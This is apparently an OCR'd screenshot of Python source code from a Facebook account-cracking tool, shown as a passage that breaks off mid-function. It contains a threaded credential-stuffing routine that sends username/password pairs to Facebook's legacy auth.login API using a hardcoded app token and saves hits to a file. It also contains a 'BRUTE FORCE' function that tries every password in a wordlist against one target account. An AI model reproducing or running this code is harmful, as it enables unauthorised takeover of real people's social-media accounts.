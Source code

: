                                                                                                                                          data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%252525257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                                                                                                                         q = json.load(data)
                                                                                                                                         if 'access_token' in q:
                                                                                                                                                 x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
                                                                                                                                                 z = json.loads(x.text)
                                                                                                                                                 print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass8+" =>"+z['name'])
                                                                                                                                                 oks.append(user+pass8)
                                                                                                                                         else:
                                                                                                                                                 if 'www.facebook.com' in q["error_msg"]:
                                                                                                                                                         cek = open("out/super_cp.txt", "a")
                                                                                                                                                         cek.write(user+"|"+pass8+"\n")
                                                                                                                                                         cek.close()
                                                                                                                                                         cekpoint.append(user+pass8)																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal OK/CP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print("\033[1;91m[+] \033[1;92mCP File saved \033[1;91m: \033[1;97mout/super_cp.txt")
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	super()
######################################################

##### BRUTE FORCE #####
def brute():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('reset')
	print logo
	try:
		email = raw_input("\033[1;91m[+] \033[1;92mID\033[1;97m/\033[1;92mEmail\033[1;97m/\033[1;92mHp \033[1;97mTarget \033[1;91m:\033[1;97m ")
		passw = raw_input("\033[1;91m[+] \033[1;92mWordlist \033[1;97mext(list.txt) \033[1;91m: \033[1;97m")
		total = open(passw,"r")
		total = total.readlines()
		print 42*"\033[1;97m═"
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mTarget \033[1;91m:\033[1;97m "+email
		print "\033[1;91m[+] \033[1;92mTotal\033[1;96m "+str(len(total))+" \033[1;92mPassword"
		jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		sandi = open(passw,"r")
		for pw in sandi:
			try:
				pw = pw.replace("\n","")
				sys.stdout.write("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;91m: \033[1;97m"+pw)
				sys.stdout.flush()
				data = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(email)+"&locale=en_US&password="+(pw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				mpsh = json.loads(data.text)
				if 'access_token' in mpsh: